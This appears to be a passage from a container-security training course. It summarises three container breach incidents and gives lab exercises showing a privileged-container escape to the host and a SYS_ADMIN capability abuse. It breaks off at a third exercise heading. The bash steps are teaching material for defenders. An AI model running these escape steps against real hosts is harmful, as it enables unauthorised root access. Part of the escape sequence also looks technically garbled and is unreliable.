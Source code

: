 1. **Tesla Kubernetes Hack (2018)**
   - Unsecured Kubernetes dashboard
   - Cryptomining in containers
   - Lesson: Secure management interfaces

2. **Docker Hub Breach (2019)**
   - 190,000 accounts compromised
   - Supply chain implications
   - Lesson: Image signing importance

3. **Azurescape (2021)**
   - Cross-tenant container escape
   - Cloud provider vulnerability
   - Lesson: Shared responsibility model

### Lab 1.2: Container Threat Demonstration

**Exercise 1: Container Escape via Privileged Mode**

```bash
# WARNING: This demonstrates a security vulnerability
# Only run in isolated lab environment

# Step 1: Create a "vulnerable" container
docker run -it --rm --privileged ubuntu bash

# Inside container - escape to host:
# Mount host filesystem
mkdir /host
mount /proc/1/ns/mnt /host

# Access host filesystem
chroot /host
# You now have root access to the host!
exit
exit
```

**Exercise 2: Capability Exploitation**

```bash
# Create container with extra capabilities
docker run -it --rm --cap-add=SYS_ADMIN ubuntu bash

# Inside container:
# Show we have SYS_ADMIN
capsh --print | grep sys_admin

# Mount host proc (security risk!)
mount -t proc none /proc
# Can now see host processes in certain scenarios
exit
```

**Exercise 3: Secret Exposure in Images**
